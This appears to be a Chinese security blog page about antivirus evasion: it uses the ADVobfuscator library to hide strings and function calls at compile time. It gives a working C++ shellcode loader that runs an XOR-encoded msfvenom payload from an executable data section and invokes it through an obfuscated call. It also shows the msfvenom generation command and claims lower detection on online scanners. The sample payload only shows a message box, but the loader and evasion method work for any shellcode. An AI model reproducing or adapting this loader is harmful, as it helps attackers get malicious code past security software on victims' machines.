 # 编译时混淆字符串&函数调用

## 简介

在做免杀的时候发现了一个宝藏项目[ADVobfuscator](https://github.com/andrivet/ADVobfuscator)，这个项目能在编译时混淆函数调用和字符串，通常字符串会被杀毒软件作为比较典型的特征，如果我们能在编译时混淆这些东西，那么会对杀毒软件判断的静态特征产生很大程度的避免，同时混淆函数调用也能对行为查杀产生一定程度的影响。

mimikatz特征：

![](../.gitbook/assets/image%20%28129%29.png)

## 使用

在配置完之后，我们可以直接查看混淆和无混淆编译出来后的结果。

未混淆：

```text
printf("hello world\n");
```

![](../.gitbook/assets/image%20%28133%29.png)

混淆:

```text
 printf(OBFUSCATED("hello world\n"));
```

![](../.gitbook/assets/image%20%28131%29.png)

同样我们可以同类似的方法来测试函数混淆，使用被杀烂的加载器编写方式，然后去在线查毒对比效果。

```text

#if !defined(DEBUG) || DEBUG == 0
#define BOOST_DISABLE_ASSERTS
#endif

#pragma warning(disable: 4503)

#define ADVLOG 1

#include "Log.h"
#include "MetaString.h"
#include "ObfuscatedCall.h"
#include "ObfuscatedCallWithPredicate.h"
#include <Windows.h>
#include <stdio.h>

#pragma comment(linker, "/section:.data,RWE")   
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")  
#pragma comment(linker, "/INCREMENTAL:NO") 
using namespace std;
using namespace andrivet::ADVobfuscator;

char shellcode[] = "\xeb\x23\x5b\x89\xdf\xb0\xb5\xfc\xae\x75\xfd\x89\xf9\x89\xde"
"\x8a\x06\x30\x07\x47\x66\x81\x3f\x2a\x1d\x74\x08\x46\x80\x3e"
"\xb5\x75\xee\xeb\xea\xff\xe1\xe8\xd8\xff\xff\xff\x11\xb5\xfa"
"\x32\x4a\x98\xce\xa1\xca\xed\xbf\x64\xec\x98\xe8\x98\xcf\x9b"
"\x17\x21\x16\x56\x77\x90\x2e\x0c\x41\x65\x19\x57\x91\x2f\xca"
"\x64\xff\xfa\xfb\xee\xf0\xf9\xc9\xee\xee\xee\x1e\xca\xc7\xf5"
"\x85\xc7\x6a\x3a\xea\x2f\xcc\xac\x69\x2f\xd7\x7a\x95\x6f\x2e"
"\x95\x68\x12\x95\x68\x02\x95\x58\x16\x95\x60\x3e\x95\x28\x26"
"\x51\x06\x6b\xed\x47\x1f\xcf\xe1\xff\x7e\x95\x72\x3a\x3a\x95"
"\x5b\x22\x95\x4a\x36\x66\x1f\xf4\x95\x54\x06\x95\x44\x3e\x1f"
"\xf5\xfd\x2a\x57\x95\x2a\x95\x1f\xf0\x2f\xe1\x2f\xde\xe2\xb2"
"\x9a\xde\x6a\x19\xdf\xd1\x13\x1f\xd9\xf5\xea\x25\x62\x3a\x36"
"\x6b\xff\x95\x44\x3a\x1f\xf5\x78\x95\x12\x55\x95\x44\x02\x1f"
"\xf5\x95\x1a\x95\x1f\xf6\x97\x5a\x3a\x02\x7f\xdd\xac\x16\x37"
"\xca\x97\xfb\x97\xdc\x76\x90\x50\x10\xf2\x4c\xf6\x81\xe1\xe1"
"\xe1\x97\x5b\x1a\xa5\x60\xc6\xfc\x6d\x99\x02\x3a\x4c\xf6\x90"
"\xe1\xe1\xe1\x97\x5b\x16\x76\x72\x72\x3e\x5f\x76\x2d\x2c\x30"
"\x7a\x76\x6b\x6d\x7b\x6c\x2e\xc5\x96\x42\x3a\x14\x97\xf8\x48"
"\xe1\x4b\x1a\x97\xdc\x4e\xa5\xb6\xbc\x53\xa2\x99\x02\x3a\x4c"
"\xf6\x41\xe1\xe1\xe1\x76\x71\x66\x46\x3e\x76\x7f\x79\x7b\x5c"
"\x76\x53\x7b\x6d\x6d\x2f\xc5\x96\x42\x3a\x14\x97\xfd\x76\x46"
"\x3e\x3e\x3e\x76\x53\x4d\x58\x3f\x76\x6c\x71\x73\x3e\x76\x71"
"\x32\x3e\x78\x76\x56\x7b\x72\x72\x2f\xd7\x96\x52\x3a\x0e\x97"
"\xff\x2f\xcc\x4c\x4d\x4f\x4c\xe1\xce\x2f\xde\x4e\xe1\x4b\x16"
"\x0c\x41\x2a\x1d";

void exec()
{
    ((void(*)(void)) & shellcode)();
}

int main(int, const char* [])
{
    OBFUSCATED_CALL0(exec);
    //exec();
    return 0;
}

```

![](../.gitbook/assets/image%20%28134%29.png)

```text
msfvenom -p windows/messagebox -e x86/xor_dynamic -i 2 -f c
```

查杀效果：

![](../.gitbook/assets/image%20%28128%29.png)

![](../.gitbook/assets/image%20%28132%29.png)

对于这种被杀烂的编写方式还是有比较明显的免杀效果的。

github:[https://github.com/idiotc4t/ObfuscationStrings-new](https://github.com/idiotc4t/ObfuscationStrings-new)

## LINKS

{% embed url="https://github.com/andrivet/ADVobfuscator" %}



